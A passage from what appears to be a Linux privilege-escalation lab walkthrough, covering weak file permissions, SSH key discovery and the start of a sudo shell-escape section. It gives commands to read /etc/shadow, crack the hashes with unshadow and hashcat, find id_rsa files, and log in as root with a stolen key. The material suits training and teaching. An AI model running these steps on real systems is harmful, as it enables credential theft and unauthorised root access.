 2. Note the file permissions

### Exploitation

1. In command prompt type: **cat /etc/passwd**

2. Save the output to a file on your attacker machine

3. In command prompt type: **cat /etc/shadow**

4. Save the output to a file on your attacker machine

**Attacker**

1. In command prompt type: **unshadow <PASSWORD-FILE> <SHADOW-FILE> > unshadowed.txt**

Now, you have an unshadowed file. We already know the password, but you can use your favorite hash cracking tool to crack dem hashes. For example:

**hashcat -m 1800 unshadowed.txt rockyou.txt -O**

#  SSH Keys                            

### Detection

1. In command prompt type:

**find / -name authorized_keys 2> /dev/null**

2. In a command prompt type:

**find / -name id_rsa 2> /dev/null**

3. Note the results.

### Exploitation

1. Copy the contents of the discovered id_rsa file to a file on your attacker VM.

**Attacker**

1. In command prompt type: **chmod 400 id_rsa**

2. In command prompt type: **ssh -i id_rsa root@<ip>**

# Sudo (Shell Escaping)

### **Detection**﻿

1. In command prompt type: **sudo -l**

2. From the output, notice the list of programs that can run via sudo.

###  Exploitation

1. In command prompt type any of the following:
